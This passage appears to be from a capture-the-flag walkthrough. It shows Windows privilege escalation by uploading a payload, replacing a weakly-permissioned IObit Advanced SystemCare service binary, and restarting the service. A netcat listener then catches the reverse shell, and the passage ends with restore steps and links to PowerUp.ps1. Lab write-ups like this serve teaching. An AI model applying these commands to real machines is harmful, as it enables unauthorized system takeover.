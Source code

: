 To upload this, we’ll need to background PowerShell with `^Z`. (_Don’t_ try to exit - for me this caused hangs, and I eventually had to restart the machine!) Upload and then start a new shell:

```
upload /home/kali/ASCService.exe
powershell_shell
```

Replace the ASCService.exe binary (its permissions are such that we can do this) and restart the service:

```
Stop-Service -Name AdvancedSystemCareService9
cp "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
ASCService.exe.bak
cp -force ASCService.exe
"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Start-Service -Name AdvancedSystemCareService9
```

(We can run Stop-Service and Start-Service because the user we’ve compromised has the CanRestart permission for this service.)

Catch this reverse shell using netcat:

```
nc -lvnp 4443
```

Once we have the root flag, let’s put the service back the way it was before we try the non-Metasploit version of this.

```
Stop-Service -Name AdvancedSystemCareService9
cp -force ASCService.exe.bak
"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Start-Service -Name AdvancedSystemCareService9
```

- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- [Using “netcat”](https://cardboard-iguana.com/notes/netcat.html)
